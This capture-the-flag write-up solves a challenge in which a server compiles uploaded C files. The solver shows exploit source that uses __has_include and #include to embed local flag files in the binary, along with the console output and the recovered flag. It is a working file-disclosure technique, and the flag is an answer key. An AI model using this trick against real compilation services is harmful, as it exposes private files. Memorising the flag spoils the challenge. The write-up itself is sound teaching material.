 # Preflag
Pwn, 10 points

## Description
> LFI is Local flag inclusion

## Solution

We enter the attached website and are presented with a short form:
```html
<html>
    <head>
    <title>Preflag</title>
    </head>
    <body>
        <form action="gcc" method="POST" enctype="multipart/form-data">
            <input type="file" name="inputFile"/>
            <button type="submit">Send</button>
        </form>
    </body>
</html>
```

Uploading different formats, we are receive an error message from the server. However, the form name (`gcc`) hints that we should be uploading a `C` file. Let's try it out:
```c
#include <stdio.h>

int main() 
{
   printf("Hello, World!");
   return 0;
}
```

As a result, we receive a file from the server:
```console
root@kali:/media/sf_CTFs/kaf/Preflag# file compiled
compiled: ELF 64-bit LSB pie executable x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=25c27c0449db49918b6a5d6655018af834a8e80f, not stripped
root@kali:/media/sf_CTFs/kaf/Preflag# strings compiled | grep Hello
Hello, World!
```

The server has compiled the source file and provided us with the result. This means that we can `#include` local files and hope to see the result in the compiled binary. Let's try different file names using the new [__has_include](https://gcc.gnu.org/onlinedocs/cpp/_005f_005fhas_005finclude.html) preprocessor operator. This way, we can supply multiple file names in the same attempt without failing compilation if any of them are missing:

```c
char* marker = "##MARKER##";
char* file = __FILE__;

#if __has_include("flag.txt")
char* __flag_txt = "__flag.txt__";
#include "flag.txt"
#endif

#if __has_include("flag")
char* __flag = "__flag__";
#include "flag"
#endif

#if __has_include("/flag.txt")
char* __flag_txt2 = "__/flag.txt__";
#include "/flag.txt"
#endif

#if __has_include("/flag")
char* __flag2 = "__/flag__";
#include "/flag"
#endif

#if __has_include("flag.h")
char* __flag_h = "__/flag.h__";
#include "flag.h"
#endif

#if __has_include("flag.c")
char* __flag_c = "__/flag.c__";
#include "flag.c"
#endif

int major = __GNUC__;
int minor = __GNUC_MINOR__;

int main() 
{
   return 0;
}
```

The result:
```console
root@kali:/media/sf_CTFs/kaf/Preflag# xxd -g 1 compiled | grep flag -A 5 -B 5
00001ff0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
00002000: 01 00 02 00 00 00 00 00 23 23 4d 41 52 4b 45 52  ........##MARKER
00002010: 23 23 00 00 00 00 00 00 2f 74 6d 70 2f 35 64 66  ##....../tmp/5df
00002020: 63 39 61 38 32 2d 34 66 39 62 2d 34 32 63 37 2d  c9a82-4f9b-42c7-
00002030: 38 62 39 62 2d 31 34 63 37 63 38 32 34 61 33 36  8b9b-14c7c824a36
00002040: 32 2e 63 00 5f 5f 66 6c 61 67 5f 5f 00 4b 41 46  2.c.__flag__.KAF
00002050: 7b 50 52 33 50 52 30 43 33 35 35 5f 4c 31 4b 33  {PR3PR0C355_L1K3
00002060: 5f 31 5f 42 30 35 35 7d 00 00 00 00 01 1b 03 3b  _1_B055}.......;
00002070: 38 00 00 00 06 00 00 00 b4 ef ff ff 84 00 00 00  8...............
00002080: c4 ef ff ff ac 00 00 00 d4 ef ff ff 54 00 00 00  ............T...
00002090: b9 f0 ff ff c4 00 00 00 c4 f0 ff ff e4 00 00 00  ................
root@kali:/media/sf_CTFs/kaf/Preflag# strings compiled | grep KAF
KAF{PR3PR0C355_L1K3_1_B055}
```